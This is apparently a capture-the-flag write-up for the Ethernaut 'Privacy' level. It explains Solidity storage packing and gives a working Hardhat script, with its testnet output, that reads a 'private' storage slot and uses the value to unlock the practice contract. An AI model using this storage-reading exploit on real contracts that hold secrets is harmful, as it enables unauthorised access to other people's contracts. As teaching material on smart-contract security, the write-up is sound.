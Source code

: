 ```yaml
---
title: Ethernaut #12 Privacy
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Privacy challenge writeup
---
```


## Privacy

### Challenge

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

* Understanding how storage works
* Understanding how parameter parsing works
* Understanding how casting works

Tips:

* Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### Background

This challegne is very similar to the `Valut` challenge. Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it. The only extra dificulty is to find the slot in use which will depend on the data types and how the final casting actually works. 

We should keep in mind that solidity will place things in the order they appear. If multiple things fit in a single slot then they will be merged together. This is because storage is very costly on the blockchain so its more efficient to spend some more type unpacking and repacking that using more storage.

### Attack

Somehow access the private `data[2]` array from the public blockchain and use it to call the `unlock` function.

* Determin at what slot offset the `data` array is placed
* Access the private `data[2]` value from the blockchain
* Cast the value to `bytes16` to obtain the `key`
* Submit the `key` using to `unlock` function to unlock the vault

#### privacy-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    privacyAddress = "0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357";
    contract = await ethers.getContractAt("Privacy", privacyAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private key value from storage
    paddedSlot = ethers.utils.hexZeroPad(5, 32);
    data_2 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    key = ethers.utils.hexDataSlice(data_2, 0, 16)
    console.log(key)

    // submit key
    tx = await contract.connect(account).unlock(key)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/privacy-solve.js --network rinkeby
Level address: 0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357
Vault locked : true
0x234731fcb29d9babc1557784fc558a0b
Vault locked : false
```

### Success Message

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
